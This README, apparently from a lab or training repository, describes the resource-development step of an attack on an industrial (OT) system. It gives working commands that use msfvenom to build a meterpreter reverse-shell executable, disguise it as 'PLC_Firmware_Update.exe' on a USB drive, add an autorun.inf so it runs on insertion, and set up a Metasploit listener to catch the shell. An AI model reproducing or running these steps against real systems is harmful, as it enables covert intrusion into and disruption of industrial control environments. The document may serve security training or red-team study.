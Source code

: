 # OT Firmware Update Attack Scenario - Step 2: Resource Development

## Scenario Overview

In this phase, the attacker develops a malicious program to be delivered via a USB thumb drive. The USB will be disguised as a legitimate firmware update for the target OT system, obtained through the information gathered during the **Reconnaissance** phase.

- **ATT&CK Technique**: [T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/)

## Objective

The goal is to craft a malicious executable that will run automatically when inserted into the target OT system, allowing the attacker to gain control or disrupt operations.

## Steps to Execute Resource Development

### 1. Create a Malicious Payload Using `msfvenom`

The malicious program can be generated using **Metasploit**’s `msfvenom` tool. This payload will be disguised as a firmware update and executed when inserted into the OT system.

#### Command to Generate a Payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.51.10 LPORT=4444 -f exe -o firmware_update.exe
```

- LHOST: IP address of the attacker's machine (M1) where the reverse shell will connect.
- LPORT: Port to listen for the reverse shell connection.
- -f exe: Specifies the format of the output file as a Windows executable.
- firmware_update.exe: The name of the malicious file disguised as a firmware update.


### 2. Load the Payload onto a USB Thumb Drive
Once the malicious executable is created, it needs to be placed on a USB thumb drive:

- Insert the USB drive into the attacker's machine (M1).

- Copy the malicious payload onto the drive:
```
cp firmware_update.exe /media/usb-drive/
```
- Rename the file to something that looks legitimate, such as:
```
mv /media/usb-drive/firmware_update.exe /media/usb-drive/PLC_Firmware_Update.exe
```

### 3. Configure Autorun (Optional)
For systems that still support autorun (e.g., legacy Windows-based OT workstations), you can create an autorun.inf file to automatically execute the malicious file when the USB drive is inserted:

- Create an autorun.inf file on the USB drive:
```
echo "[autorun]" > /media/usb-drive/autorun.inf
echo "open=PLC_Firmware_Update.exe" >> /media/usb-drive/autorun.inf
```
- Save and safely eject the USB drive.

### 4. Test the Malicious Payload
Test the payload to ensure it works as expected by running the PLC_Firmware_Update.exe on a virtual machine or test system. You can listen for the reverse shell on the attacker's machine (M1) using Metasploit:

#### Set up a Metasploit Listener:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.51.10
set LPORT 4444
exploit
```
When the payload is executed, the attacker will gain a reverse shell into the system.

## Next Steps
Once the malicious USB drive is prepared, it will be delivered to the target via social engineering in the Initial Access phase.

## Summary
In the Resource Development (T1587.001) phase, the attacker creates a malicious program that will be loaded onto a USB thumb drive, disguised as a legitimate firmware update. This payload is designed to provide the attacker with access to the OT system when inserted and executed by the target.


```
This `README.md` outlines how the attacker prepares the malicious payload and USB drive during the **Resource Development** phase of the attack.
```
